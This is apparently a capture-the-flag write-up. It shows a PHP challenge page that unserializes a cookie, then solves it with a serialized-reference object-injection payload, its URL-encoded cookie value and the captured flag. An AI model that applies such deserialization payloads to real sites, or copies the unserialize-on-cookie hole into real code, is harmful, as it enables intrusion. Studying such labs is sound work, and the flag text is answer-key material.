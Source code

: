 ```
<?php
include "flag.php";

if (isset ($POST['obj'])) {
    setcookie ('obj', $_POST['obj']);
} elseif (!isset ($_COOKIE['obj'])) {
    $obj = new stdClass;
    $obj->input = 1234;
    setcookie ('obj', serialize ($obj));
}
$obj = $_COOKIE['obj'];
$unserialized_obj = unserialize ($obj);
$unserialized_obj->flag = $flag;  
if (hash_equals ($unserialized_obj->input, $unserialized_obj->flag))
        echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
else 
        echo '<div class="alert alert-danger"><code>' . htmlentities($obj) . '</code> is an invalid object, sorry.</div>';
?>
```



STEP 1: Payload to point the $obj->input to the reference of $obj->flag which in turn points to $flag
<?php
$obj = new stdClass;
$obj->input = &$obj->flag;
echo serialize($obj);
OUTPUT: O:8:"stdClass":2:{s:4:"flag";N;s:5:"input";R:2;}



STEP 2: URL Encode the output
OUTPUT: O%3A8%3A%22stdClass%22%3A2%3A%7Bs%3A4%3A%22flag%22%3BN%3Bs%3A5%3A%22input%22%3BR%3A2%3B%7D



STEP 3: Insert the output as the obj cookie value
OUTPUT: Here is your flag: WEBSEC{You_have_impressive_refrences._We'll_call_you_back.}.



FLAG: WEBSEC{You_have_impressive_refrences._We'll_call_you_back.}
